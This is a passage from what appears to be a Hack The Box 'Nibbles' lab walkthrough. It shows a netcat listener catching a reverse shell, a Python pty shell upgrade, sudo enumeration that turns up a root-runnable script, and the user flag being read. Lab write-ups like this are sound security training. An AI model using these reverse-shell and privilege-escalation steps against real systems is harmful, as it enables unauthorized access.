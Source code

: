 {% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/nibbles]
└─$ sudo nc -nlvp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.75] 48864
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 08:43:19 up 38 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
nibbler@Nibbles:
```
{% endraw %}

<br />
Run sudo -l to see a list of command that this user can run as sudo.

{% raw %}
```sh
nibbler@Nibbles:/$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
<redacted>
nibbler@Nibbles:/home/nibbler$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:1d:9a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.75/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:1d9a/64 scope global mngtmpaddr dynamic 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:1d9a/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}
